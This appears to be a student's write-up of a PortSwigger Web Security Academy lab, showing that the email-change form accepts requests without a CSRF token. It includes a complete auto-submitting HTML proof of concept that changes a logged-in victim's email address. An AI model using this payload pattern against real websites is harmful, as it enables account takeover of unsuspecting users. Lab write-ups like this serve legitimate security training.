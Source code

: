 # Lab: CSRF where token validation depends on token being present
###### tags: `Portswigger Web Security Academy` `Web`
* Description: This lab's email change functionality is vulnerable to CSRF.
* Goal:  To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.
You can log in to your own account using the following credentials: `wiener:peter`

## Recon
1. Login and update email to trace the package
It's very similar with previous lab $\to$ it contained `CSRF_token` as its carried data:
![](https://i.imgur.com/69FaW1R.png)

2. Try to use 1st method to bypass
![](https://i.imgur.com/Mm1YvZ5.png)
It seems can work properly.

## Exp - Delete `CSRF_token` directly to bypass
Actually, this is totally the same with the first lab's payload
Exploit Payload:
```javascript=
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <script>history.pushState('', '', '/')</script>

    <form action="https://0aa70059042bf55d80101c7a00930051.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="danger&#64;gmail&#46;com" />
    </form>
    <script>
          document.forms[0].submit();
    </script>
  </body>
</html>
```
:::spoiler Success Screenshot
![](https://i.imgur.com/EN6dFEO.png)
:::

## Reference
[Lab: CSRF where token validation depends on token being present:CSRF](https://blog.csdn.net/ZripenYe/article/details/120793710)
[从0到1完全掌握 CSRF](https://zhuanlan.zhihu.com/p/517735618)